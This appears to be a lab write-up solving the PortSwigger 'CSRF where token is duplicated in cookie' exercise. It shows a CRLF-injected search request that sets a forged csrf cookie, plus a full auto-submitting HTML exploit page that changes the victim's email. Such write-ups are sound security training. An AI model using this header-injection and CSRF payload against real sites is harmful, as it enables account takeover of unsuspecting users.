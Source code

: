 # Lab: CSRF where token is duplicated in cookie
# https://portswigger.net/web-security/learning-paths/csrf/csrf-common-flaws-in-csrf-token-validation/csrf/bypassing-token-validation/lab-token-duplicated-in-cookie

```bash
# Login to wiener:peter and update your password to abc@gmail.com
# Take change-email request and send it to repeater.
```

```bash
# csrf token and csrf cookie to this:

 VAEvcYQ7QxVHtscL6RlhzZyXOZGrsHYa

# change email and send request to see if it works.  

```

```bash
# Search test

GET /?search=test HTTP/2

# Response

HTTP/2 200 OK
Set-Cookie: LastSearchTerm=test;
```

```bash
GET /?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None HTTP/2

# Response:

HTTP/2 200 OK
Set-Cookie: LastSearchTerm=test
Set-Cookie: csrf=fake; SameSite=None; Secure; HttpOnly
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3440
``

```bash
<html>
  <body>
    <form action="https://0aa600fd03e38ed18311006a00b2002e.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="agc@gmail.com" />
      <input type="hidden" name="csrf" value="fake" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
    </script>
  <img src="https://0aa600fd03e38ed18311006a00b2002e.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake" onerror="document.forms[0].submit();" />
  </body>
</html>
```
